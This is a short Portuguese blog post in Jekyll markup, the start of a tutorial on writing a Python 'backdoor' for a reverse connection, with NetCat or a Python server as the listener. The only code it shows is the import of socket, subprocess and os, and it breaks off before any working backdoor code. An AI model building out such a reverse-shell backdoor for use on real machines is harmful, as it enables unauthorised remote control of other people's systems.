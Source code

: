```yaml
---
layout: post
title:  "BlackDoor em Python"
date:   2017-12-18
---
```

<figure>
	<img src="{{ '/assets/img/ imagem aqui' | prepend: site.baseurl }}" alt=""> 
	
</figure>
<p class="intro"><span class="dropcap"> S</span>imples
<dt>"BkacDor"</dt> em python para conexão revessa, você pode usar o <dt>NetCat</dt> ou criar um servido em python para estar ouvindo o <dt>"BkacDor."</dt>

<dt>1.<dt/><dd>vamos importa as bibliotecas necessarias para o funcionamento do
<dt>BackDoor</dt></dd>

{% highlight ruby %}
#!/usr/bin/python
import socket,subprocess, os
# ou 
import socket
import subprocess
import os
{% endhighlight %}

